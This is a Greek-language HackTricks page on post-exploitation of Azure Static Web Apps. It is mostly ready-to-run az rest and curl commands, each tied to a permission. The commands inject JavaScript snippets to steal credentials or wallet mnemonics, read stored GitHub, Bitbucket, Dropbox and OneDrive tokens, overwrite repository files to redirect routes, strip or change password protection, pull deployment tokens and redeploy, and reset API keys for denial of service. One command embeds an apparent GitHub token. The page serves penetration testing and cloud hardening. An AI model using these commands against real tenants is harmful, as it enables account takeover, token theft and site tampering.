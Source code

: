 # Az - Static Web Apps Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Azure Static Web Apps

Για περισσότερες πληροφορίες σχετικά με αυτή την υπηρεσία, ελέγξτε:

{{#ref}}
../az-services/az-static-web-apps.md
{{#endref}}

### Microsoft.Web/staticSites/snippets/write

Είναι δυνατόν να φορτώσετε μια στατική ιστοσελίδα με αυθαίρετο HTML κώδικα δημιουργώντας ένα snippet. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο να εισάγει κώδικα JS μέσα στην εφαρμογή ιστού και να κλέψει ευαίσθητες πληροφορίες όπως διαπιστευτήρια ή μνημονικούς κωδικούς (σε πορτοφόλια web3).

Η παρακάτω εντολή δημιουργεί ένα snippet που θα φορτώνεται πάντα από την εφαρμογή ιστού::
```bash
az rest \
--method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
--headers "Content-Type=application/json" \
--body '{
"properties": {
"name": "supersnippet",
"location": "Body",
"applicableEnvironmentsMode": "AllEnvironments",
"content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
"environments": [],
"insertBottom": false
}
}'
```
### Διαβάστε τις Ρυθμισμένες Πιστοποιήσεις Τρίτων

Όπως εξηγήθηκε στην ενότητα App Service:

{{#ref}}
../az-privilege-escalation/az-app-services-privesc.md
{{#endref}}

Εκτελώντας την παρακάτω εντολή είναι δυνατόν να **διαβάσετε τις πιστοποιήσεις τρίτων** που είναι ρυθμισμένες στον τρέχοντα λογαριασμό. Σημειώστε ότι αν για παράδειγμα κάποιες πιστοποιήσεις Github είναι ρυθμισμένες σε διαφορετικό χρήστη, δεν θα μπορείτε να αποκτήσετε πρόσβαση στο token από έναν διαφορετικό.
```bash
az rest --method GET \
--url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```
Αυτή η εντολή επιστρέφει tokens για το Github, Bitbucket, Dropbox και OneDrive.

Εδώ έχετε μερικά παραδείγματα εντολών για να ελέγξετε τα tokens:
```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
-H "Accept: application/vnd.github.v3+json" \
https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
-H "Authorization: Bearer <token>" \
-H "Content-Type: application/json" \
--data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://graph.microsoft.com/v1.0/me/drive/root/children
```
### Επικαλύψτε το αρχείο - Επικαλύψτε διαδρομές, HTML, JS...

Είναι δυνατόν να **επικαλύψετε ένα αρχείο μέσα στο αποθετήριο Github** που περιέχει την εφαρμογή μέσω του Azure, στέλνοντας ένα αίτημα όπως το παρακάτω, το οποίο θα υποδείξει τη διαδρομή του αρχείου που θα επικαλυφθεί, το περιεχόμενο του αρχείου και το μήνυμα δέσμευσης.

Αυτό μπορεί να καταχραστεί από επιτιθέμενους για να **αλλάξουν το περιεχόμενο της διαδικτυακής εφαρμογής** ώστε να εξυπηρετούν κακόβουλο περιεχόμενο (να κλέψουν διαπιστευτήρια, μνημονικές κλειδιά...) ή απλώς για να **ανακατευθύνουν ορισμένες διαδρομές** στους δικούς τους διακομιστές επικαλύπτοντας το αρχείο `staticwebapp.config.json`.

> [!WARNING]
> Σημειώστε ότι αν ένας επιτιθέμενος καταφέρει να παραβιάσει το αποθετήριο Github με οποιονδήποτε τρόπο, μπορεί επίσης να επικαλύψει το αρχείο απευθείας από το Github.
```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
"commit": {
"message": "Update static web app route configuration",
"branchName": "main",
"committer": {
"name": "Azure App Service",
"email": "donotreply@microsoft.com"
},
"contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
"filePath": "staticwebapp.config.json",
"message": "Update static web app route configuration",
"repoName": "carlospolop/my-first-static-web-app",
"sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
},
"gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```
### Microsoft.Web/staticSites/config/write

Με αυτή την άδεια, είναι δυνατόν να **τροποποιήσετε τον κωδικό πρόσβασης** που προστατεύει μια στατική εφαρμογή ιστού ή ακόμη και να αφαιρέσετε την προστασία από κάθε περιβάλλον στέλνοντας ένα αίτημα όπως το παρακάτω:
```bash
# Change password
az rest --method put \
--url "/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/config/basicAuth?api-version=2021-03-01" \
--headers 'Content-Type=application/json' \
--body '{
"name": "basicAuth",
"type": "Microsoft.Web/staticSites/basicAuth",
"properties": {
"password": "SuperPassword123.",
"secretUrl": "",
"applicableEnvironmentsMode": "AllEnvironments"
}
}'

# Remove the need of a password
az rest --method put \
--url "/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/config/basicAuth?api-version=2021-03-01" \
--headers 'Content-Type=application/json' \
--body '{
"name": "basicAuth",
"type": "Microsoft.Web/staticSites/basicAuth",
"properties": {
"secretUrl": "",
"applicableEnvironmentsMode": "SpecifiedEnvironments",
"secretState": "None"
}
}'
```
### Microsoft.Web/staticSites/listSecrets/action

Αυτή η άδεια επιτρέπει την απόκτηση του **API key deployment token** για την στατική εφαρμογή.

Αυτό το token επιτρέπει την ανάπτυξη της εφαρμογής.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/listSecrets?api-version=2023-01-01"
```
Στη συνέχεια, για να ενημερώσετε μια εφαρμογή, μπορείτε να εκτελέσετε την παρακάτω εντολή. Σημειώστε ότι αυτή η εντολή εξήχθη ελέγχοντας **πώς λειτουργεί το Github Action [https://github.com/Azure/static-web-apps-deploy](https://github.com/Azure/static-web-apps-deploy)**, καθώς είναι αυτή που έχει ορίσει το Azure ως προεπιλογή. Έτσι, η εικόνα και οι παράμετροι μπορεί να αλλάξουν στο μέλλον.

1. Κατεβάστε το repo [https://github.com/staticwebdev/react-basic](https://github.com/staticwebdev/react-basic) (ή οποιοδήποτε άλλο repo θέλετε να αναπτύξετε) και εκτελέστε `cd react-basic`.
2. Αλλάξτε τον κώδικα που θέλετε να αναπτύξετε
3. Αναπτύξτε το εκτελώντας (Θυμηθείτε να αλλάξετε το `<api-token>`):
```bash
docker run -it --rm -v $(pwd):/mnt mcr.microsoft.com/appsvc/staticappsclient:stable INPUT_AZURE_STATIC_WEB_APPS_API_TOKEN=<api-token> INPUT_APP_LOCATION="/mnt" INPUT_API_LOCATION="" INPUT_OUTPUT_LOCATION="build" /bin/staticsites/StaticSitesClient upload --verbose
```
### Microsoft.Web/staticSites/write

Με αυτή την άδεια είναι δυνατόν να **αλλάξετε την πηγή της στατικής εφαρμογής ιστού σε ένα διαφορετικό αποθετήριο Github**, ωστόσο, δεν θα προμηθευτεί αυτόματα καθώς αυτό πρέπει να γίνει από μια ενέργεια Github συνήθως με το διακριτικό που εξουσιοδότησε την ενέργεια, καθώς αυτό το διακριτικό δεν ενημερώνεται αυτόματα μέσα στα μυστικά του Github του αποθετηρίου (προστίθεται αυτόματα μόνο όταν δημιουργείται η εφαρμογή).
```bash
az staticwebapp update --name my-first-static-web-app --resource-group Resource_Group_1 --source https://github.com/carlospolop/my-first-static-web-app -b main
```
### Microsoft.Web/staticSites/resetapikey/action

Με αυτή την άδεια είναι δυνατόν να **επαναρυθμιστεί το API key της στατικής εφαρμογής ιστού**, ενδεχομένως προκαλώντας DoS στις ροές εργασίας που αναπτύσσουν αυτόματα την εφαρμογή.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/resetapikey?api-version=2019-08-01"
```
{{#include ../../../banners/hacktricks-training.md}}

